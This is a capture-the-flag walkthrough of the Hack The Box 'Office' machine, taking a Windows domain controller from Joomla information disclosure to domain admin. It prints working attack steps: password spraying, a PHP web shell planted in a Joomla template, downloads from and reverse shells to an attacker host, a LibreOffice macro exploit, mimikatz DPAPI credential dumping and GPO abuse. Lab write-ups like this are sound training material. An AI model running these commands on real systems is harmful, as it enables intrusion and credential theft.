| Title | Office |
|---|---|
| Description | Office is a hard-difficulty Windows machine featuring various vulnerabilities including Joomla web application abuse, PCAP analysis to identify Kerberos credentials, abusing LibreOffice macros after disabling the MacroSecurityLevel registry value, abusing MSKRP to dump DPAPI credentials and abusing Group Policies due to excessive Active Directory privileges. |
| Difficulty | Hard |
| Maker | 0rii |
Footprinting
└─$ cat nmap/office.nmap
# Nmap 7.94SVN scan initiated Sat Jun 29 11:58:59 2024 as: nmap -sC -sV -oA nmap/office 10.10.11.3
Nmap scan report for 10.10.11.3
Host is up (0.092s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-title: Home
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-29 23:59:17Z)
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn:
|_ http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after: 2019-11-08T23:48:47
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-30T00:00:40+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after: 2024-05-09T12:36:58
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-30T00:00:41+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after: 2024-05-09T12:36:58
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after: 2024-05-09T12:36:58
|_ssl-date: 2024-06-30T00:00:40+00:00; +8h00m01s from scanner time.
Service Info: Hosts: www.example.com, DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2024-06-30T00:00:01
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m00sNotable Services Running
| Port | Service |
|---|---|
| 80 | joomla |
| 445 | SMB |
| 465 | Kerberos |
| 636 | LDAP |
Notable Domains
office.htbdc.office.htbAdd this domains to/etc/hosts
Joomla
From http://office.htb/administrator/manifests/files/joomla.xml file, we found the version of Joomla is 4.2.7. Checking for the CVE will lead up to this https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT - CVE-2023-23752.
More info about vuln - https://vulncheck.com/blog/joomla-for-rce
python3 CVE-2023-23752.py -u http://office.htb

We got the password -H0lOgrams4reTakIng0Ver754!
There is a page /api/index.php/v1/users?public=true where we can find users.

We found one more domain - holography.htb add this domain to /etc/hosts.
I have tried to login with this username and password with both of the domains. But it is not allowing us to login. Next thing we need is the username or something.
Username Enumeration
We can bruteforce username using kerbrute. and we can use jsmith wordlist.
./kerbrute_linux_386 userenum -d office.htb --dc 10.10.11.3 ./jsmith
 Add list of usernames to
Add list of usernames to user.txt
ewhite
dmichael
dwolfe
tstark
hhogan
ppotts
Password Spraying
As we have list of usernames and a password, we can do password spraying attack. We can use crackmapexec for it.

We found a usernamedwolfe.
SMB 10.10.11.3 445 DC [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.3 445 DC [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB 10.10.11.3 445 DC [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB 10.10.11.3 445 DC [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!
SMB Enumeration
List shares
 Get
Get SOC Analysis share

Pcap Analysis
We got pcap file named as Latest-System-Dump-8fbc124d.pcap. Open it with wireshark. Go to Statistics > Protocol Hierarchy to see the protocols that are being used. We can see, TCP, UDP, SMB, Kerberos etc protocols. We can directly follow TCP stream by right clicking the protocol.
We are following Kerberos stream and in that packet, we found Kerberos hash.
 The etype of hash is 18, so we will use
The etype of hash is 18, so we will use Kerberos 5, etype 18, Pre-Auth - 19900 mode in hashcat in order to crack the hash. Also we can see the hash is of tstark user.
Append the hash string with the cipher, so the hash will be $krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
└─$ hashcat -m 19900 tstark.hash /usr/share/wordlists/rockyou.txt --show
$krb5pa$18$hashcat$google.com$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
Again, checking this creds with crackmapexec.
└─$ sudo crackmapexec smb 10.10.11.3 -u tstark -p playboy69
[sudo] password for kali:
SMB 10.10.11.3 445 DC [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.3 445 DC [+] office.htb\tstark:playboy69
I have tried to login with SMB with this creds, but it has same shares as before. I have tried to login with this creds in office.htb Jooma admin portal, but didn’t work. Then I remember that it has administrator user, so I have tried to use this password playboy69 with that username, and boom, we can able to login.
web account shell
Now, go to System -> sites templates -> Cassiopeia Details and Files -> edit error.php - add this line after php system($_GET['cmd']);. Then make an request to the shell.

It keeps on reloading the code, so we have to keep an eye on updating file every time. Now generate a reverse shell from revshells.com and instead ofwhoami enter it with rev shell and replace spaces with + and boom, we will get the shell from web_account

tstark shell and user flag
We can use RunasCs and nc to get tstark shell as we already have it’s credentials.
Download each files and using python3 -m http.server transfer each files to windows with this wget http://10.10.14.156/nc.exe -o C:\Windows\Tasks\nc.exe.
Now, run the binary in order to get tstark shell.
C:\Windows\Tasks\runas.exe tstark playboy69 cmd.exe -r 10.10.14.156:443

PS C:\Users\tstark\Desktop> cat user.txt
7870a5d3dbb5ec949ccc83cc1c3069d6PPots Shell
Checking groups and privilages from tstark user.
PS C:\Users> whoami /priv
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== ========
SeMachineAccountPrivilege Add workstations to domain Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users> whoami /groups
whoami /groups
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
========================================== ================ ============================================= ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Group used for deny only
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON Well-known group S-1-2-1 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
OFFICE\Registry Editors Group S-1-5-21-1199398058-4196589450-691661856-1106 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label S-1-16-8192
It seems that tstark is in OFFICE\Registry Editors which means, this user can make changes to registry. Nothing interesting found in tstark user’s directory, so I went back to xampp. There are 3 folders.
 There is nothing in
There is nothing in administrator folder. We have already seen joomla website. There is an internal folder where it seems another website is hosted.

Also, while enumeratingC:\Program Files\ I found LibreOffice 5 is installed.
Okay, enough of enumeration, We will now visit the internal file. We have to find the port number of that application and then using chisel, we will do port forwarding so that we can able to view website from our machine.
From C:\xampp\apache\conf\httpd.conf we can able to see the port number of the application. That is 8083.
 Install Chisel from it’s release page. Transfer windows file to windows machine and we will now try to connect it.
Install Chisel from it’s release page. Transfer windows file to windows machine and we will now try to connect it.
On Windows Machine
.\chisel_1.9.1_windows_amd64 client 10.10.14.152:8000 R:8083:127.0.0.1:8083
On Linux Machine
./chisel_1.9.1_linux_amd64 server --port 8001 --reverse
Now visiting 127.0.0.1:8083 will give us the internal website. In the website, there is a page to upload the resume where I tried to upload png file, it gave me this error Accepted File Types : Doc, Docx, Docm, Odt!.
 On searching for
On searching for Libre Office 5 exploit, I found this one CVE-2023-2255
Use this command in order to generate the file python3 CVE-2023-2255.py --cmd "cmd /c <rev_shell_base64_payload>, now upload the file to in place of resume and wait for sometime to get the shell.
And yes, we got the shell as ppotts.

Shell as HHogan
Checking vaultcmd /list gave us this results.

Whereas system level creds are stored inC:\Users\PPotts\AppData\Roaming\Microsoft\Credentials. It gave us 3 files. Moreover, we can also see protected files at this location C:\users\ppotts\appdata\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107.
 Getting the key
Getting the key .\mimikatz.exe "dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" exit

This is the key -87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
Now trying masterkey on each of the file, and this is the one which gave us the password - .\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" exit

UserName : OFFICE\HHogan
CredentialBlob : H4ppyFtW183#Administrator
We can get shell using evil-winrm - evil-winrm -i office.htb -u hhogan -p 'H4ppyFtW183#'
On checking whoami /all we noticed that it is a member of GPO Managers group.

There are multiple GPOs.*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName
DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
In order to edit GPO, we can download the binary from here.
 Trying with different GPOs eventually give us admin access to HHogan user. In order to make it effective, we have to reload GPOs using
Trying with different GPOs eventually give us admin access to HHogan user. In order to make it effective, we have to reload GPOs using gpupdate /force. Also, we have to reconnect in get it.
After reconnecting, we can able to get the flag.
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
e4641807a5835f83cc6381d15af788aeCredentials
| Service | User | Password |
|---|---|---|
| SMB | dwolfe | H0lOgrams4reTakIng0Ver754! |
| tstark | playboy69 | |
| Joomla Admin | Administrator | playboy69 |
| HHogan | H4ppyFtW183# |